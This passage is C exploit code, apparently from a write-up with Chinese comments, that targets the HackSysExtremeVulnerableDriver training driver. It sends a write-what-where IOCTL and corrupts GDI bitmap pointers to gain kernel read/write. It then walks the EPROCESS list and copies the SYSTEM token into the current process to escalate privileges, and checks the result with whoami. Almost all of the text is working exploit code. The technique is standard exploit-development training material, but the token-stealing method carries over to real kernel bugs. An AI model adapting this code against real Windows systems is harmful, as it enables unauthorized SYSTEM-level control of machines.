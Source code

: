 ```c
	printf("Worker pvScan0 Addr: 0x%p\n", WorkerpvScan0Address);

	PPayload payload = NULL;
	// malloc
	payload = (PPayload)HeapAlloc(GetProcessHeap(),
		HEAP_ZERO_MEMORY,
		sizeof(Payload));
	payload->what = (PULONG_PTR)&WorkerpvScan0Address;
	payload->where = (PULONG_PTR)ManagerpvScan0Address;
	DWORD BytesReturned = 0;
	HANDLE hDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, NULL, 0x3, 0, NULL);
	DeviceIoControl(hDevice, 0x0022200B, (LPVOID)payload, sizeof(Payload), NULL, 0, &BytesReturned, NULL);

	// 已经 overwrite 了，接下来就是利用 SetBitmapBits 和 GetBitmapBits 来读写

	DWORD64 systemEprocessAddr = 0;
	LPVOID lpSystemToken = NULL; // 获取 system 进程的 token
	readOOB(hManagerbitmap, hWorkerbitmap, getSystemEProcessAddr(), &systemEprocessAddr, sizeof(DWORD64));
	readOOB(hManagerbitmap, hWorkerbitmap, (systemEprocessAddr + 0x358), &lpSystemToken, sizeof(DWORD64));

	printf("system eprocess addr: 0x%p\n", systemEprocessAddr);

	// _eprocess + 0x0f8 是 token   0x358
	// _eprocess + 0x0B8 是 ActiveProcessLinks.Flink    0x2f0
	// _eprocess + 0x0b4 是 processid   0x2e8
	// 获取当前进程的 _eprocess
	DWORD64 lpNextEPROCESS = 0;
	LPVOID lpCurrentPID = NULL;
	DWORD64 dwCurrentPID;
	LIST_ENTRY lpNextEntryAddreess = { 0 };
	DWORD64 currentProcessID = GetCurrentProcessId();	// 通过PID判断是否获取到当前进程的地址
	readOOB(hManagerbitmap, hWorkerbitmap, systemEprocessAddr + 0x2f0, &lpNextEntryAddreess, sizeof(LIST_ENTRY));

	do	// 根据PID是否找到当前进程 
	{
		// 获取下一个进程
		lpNextEPROCESS = (DWORD64)((PUCHAR)lpNextEntryAddreess.Flink - 0x2f0);
		// 获取PID
		readOOB(hManagerbitmap, hWorkerbitmap, lpNextEPROCESS + 0x2e8, &lpCurrentPID, sizeof(LPVOID));
		dwCurrentPID = LOWORD(lpCurrentPID);
		readOOB(hManagerbitmap, hWorkerbitmap, lpNextEPROCESS + 0x2f0, &lpNextEntryAddreess, sizeof(LIST_ENTRY));
	} while (dwCurrentPID != currentProcessID);

	DWORD64 currentTokenAddress = (DWORD64)lpNextEPROCESS + 0x358;
	writeOOB(hManagerbitmap, hWorkerbitmap, currentTokenAddress, lpSystemToken, sizeof(LPVOID));
	
	system("whoami\n");

	CloseHandle(hManagerbitmap);
	CloseHandle(hWorkerbitmap);
	
    return 0;
}

```
